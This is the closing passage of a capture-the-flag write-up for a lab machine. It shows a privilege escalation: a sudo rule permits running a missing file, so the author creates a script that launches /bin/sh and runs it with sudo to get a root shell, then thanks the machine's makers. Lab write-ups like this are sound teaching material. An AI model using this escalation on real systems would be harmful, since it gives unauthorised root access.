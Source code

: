 It says jack can run `/home/jack/pumpkin/alohomora` since this file doesn't exists we can just make it and with some shell in it and run it as sudo to get the shell.

```bash
$ mkdir pumpkins
$ echo "#!/bin/bash\n/bin/sh" > pumpkins/alohomora
$ sudo ./pumpkins/alohomora
```

This will give you the root shell and then just get the flag.

![](images/festival/root.png)

***

Thanks to [@jayanth](https://twitter.com/askjayanth) for making this amazing machine and thanks to [@andre](https://twitter.com/mrhenrike) for helping me.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
